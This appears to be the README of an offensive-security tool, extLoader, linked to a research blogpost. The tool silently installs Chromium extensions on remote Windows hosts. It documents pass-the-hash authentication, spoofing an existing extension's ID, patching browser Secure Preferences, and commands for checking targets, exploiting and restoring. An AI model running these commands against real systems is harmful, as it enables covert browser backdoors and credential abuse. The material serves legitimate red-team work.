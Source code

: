 # extLoader

A small toolkit for managing and deploying unpacked Chromium extensions.

> Find out more in the following blogpost: https://www.synacktiv.com/en/publications/the-phantom-extension-backdooring-chrome-through-uncharted-pathways

## Installation

### Direct install (pipx)

```bash
pipx install .
extloader --help
```

> Use `pipx` for an isolated install targeting Python 3.10+.

### Development setup (uv)

```bash
uv venv
source .venv/bin/activate
uv pip install -e .
```

## Authentication Options
- Password: `-p/--password`
- Hash: `-H/--hash` (LM:NT format or just NT)
- Domain: `-d/--domain` (defaults to WORKGROUP)

## Common Parameters
- `-t, --target`: Target IP/hostname
- `-u, --username`: Username
- `-i, --index`: User index from check command
- `--debug`: Enable debug logging

## Usage

Here's a step-by-step example of deploying an extension:

1. First, check available targets:

```bash
# This will list available users and browsers
extloader check -t 192.168.1.100 -u admin -H aad3b435b51404eeaad3b435b51404ee:ntlm_hash -d corp.local

┏━━━━━━━━┳━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Index  ┃ Browser         ┃ User (SID)                                                   ┃
┡━━━━━━━━╇━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│   1    │ Chrome          │ john.doe (S-1-5-21-4196007090-2879228606-3183820935-1122)    │
│   2    │ Microsoft Edge  │ john.doe (S-1-5-21-4196007090-2879228606-3183820935-1122)    │
└────────┴─────────────────┴──────────────────────────────────────────────────────────────┘
```

> When running exploit on a different machine, always run the `check` command before to refresh the context (`available_targets.json`).

2. Prepare the manifest (sign or spoof an ID):

```bash
# Create a deterministic crx_id by adding a key to the manifest.json
extloader sign --extension ./my-extension
```

> To spoof an existing extension ID, skip the command above and set the manifest
> `key` to the base64 public key of the extension you are mimicking. Reusing that
> key keeps the CRX ID unchanged.

3. Deploy the extension:

```bash
# Deploy to user index 1 (Chrome of john.doe)
extloader exploit -t 192.168.1.100 -u admin -H ntlm_hash -i 1 --extension ./my-extension
```

4.(Alternative) Package for manual deployment:

```bash
# Bundle the signed extension with the captured Preferences file
extloader package --prefs-file "Preferences" --extension-dir ./my-extension --target-dir "C:\\Users\\Public"

# This creates a ZIP containing:
# - Signed extension files
# - Updated preferences files
# - Deployment instructions
```

> `--prefs-file` expects the browser profile preferences you backed up (Chrome/Edge store them as `Secure Preferences`, other Chromium browsers use `Preferences`). The loader copies it, patches it, and includes both the modified and untouched versions in the package.

```text
├── extension/
│   └── chrome-mv3/
├── preferences/
│   ├── brave/
│   ├── chrome/
│   ├── chromium/
    [...]
└── info.json
```

5. Restore original preferences if needed:

```bash
# Restore original preferences for user index 1 (need check command to get the correct context)
extloader restore -t 192.168.1.100 -u admin -H ntlm_hash -i 1 -f ./backup_preferences
```

## TODO
- Kerberos support
- nxc module
- Adapt `package` workflow for Linux
- Adapt `package` worflow for macOS
